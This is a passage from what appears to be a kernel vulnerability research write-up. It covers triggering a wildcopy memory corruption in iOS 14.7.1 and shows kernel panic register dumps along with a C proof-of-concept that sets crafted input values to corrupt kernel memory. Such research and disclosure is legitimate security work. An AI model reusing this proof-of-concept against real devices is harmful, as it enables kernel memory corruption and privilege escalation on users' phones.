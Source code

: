 ```
	  x24: 0x000000000000000c x25: 0x0000000000010008  x26: 0xffffffe8042f3638  x27: 0xffffffe4cd51df44
	  x28: 0xffffffe199c1d478 fp:  0xffffffe8042f34a0  lr:  0xfffffff02795c1b8  sp:  0xffffffe8042f3460
	  pc:  0xfffffff02795c244 cpsr: 0x60400204         esr: 0x96000046          far: 0xffffffec5276aa90
...
Kernel slide:      0x000000001f378000
Kernel text base:  0xfffffff02637c000


```

Much better. Note that PC is the same as before (0xfffffff02795c244-0x000000001f378000==0xFFFFFFF0085E4244), but this time the dst base address is X9=0xffffffec5276aa90. We still crash on the first index of the loop (X1=0), becasue the offset was too large. That’s because we didn’t choose the other arbitrary values wisely. Let’s fix that.

### Better panic - a POC of a classic wildcopy[](#better-panic---a-poc-of-a-classic-wildcopy)

So everything is great, and we understand exactly what’s going on. But that’s still not enough. We need to get a good panic that indicates we corrupted arbitrary memory (which we could control via shaping, etc.). Panic on a write to an unmapped page is a good first step, but there is more work to do. Because it looks like we are going here into a wildcopy situation, let’s choose good arguments such that:

*   we get a “sane” allocation size (although it may still be pretty high)
*   we get a sane offset from the allocation
*   we start corrupt memory and crash on an unmapped page after a while (i.e., we successfully corrupted some memory before the panic)

This might be a good POC for the wildcopy. And then, we just need to figure out how to stop the wildcopy and exploit the corruption (see next section).

So, in this new POC, the allocation size is still very large, but the allocation does succeed:

```
    memset(input, 0x41, input_size);
    int *pArr = (int*)input;

    pArr[0] = 0x3;          // sub-sub selector
    pArr[1] = 0xffffffff;   // has to be non-zero
    pArr[2] = 0x10008;
    pArr[3] = 0x424242;
    pArr[8] = 0x434343;
    pArr[89] = 0x10008;


```

And the panic:

```
  "build" : "iPhone OS 14.7.1 (18G82)",
  "product" : "iPhone10,3",
...
  "panicString" : "panic(cpu 5 caller 0xfffffff02585b2d4): Kernel data abort. at pc 0xfffffff025d3c270, lr 0xfffffff025d3c1b8 (saved state: 0xffffffe816513110)
	  x0: 0xffffffe4cc8dfcc0  x1:  0x0000000000000010  x2:  0xffffffe4cd012e00  x3:  0x0000000000424242
	  x4: 0xffffffe8165132c0  x5:  0xffffffe8165132bc  x6:  0x0000000000000001  x7:  0x0000000000000009
	  x8: 0xffffffe904720300  x9:  0x000000000000af80  x10: 0xffffffe9047a4000  x11: 0xffffffe4cd0c2608
	  x12: 0x0000000063736944 x13: 0x00000000ffdfffff  x14: 0xffffffe8044e8000  x15: 0xaaaaaaaaaaaaaaab
```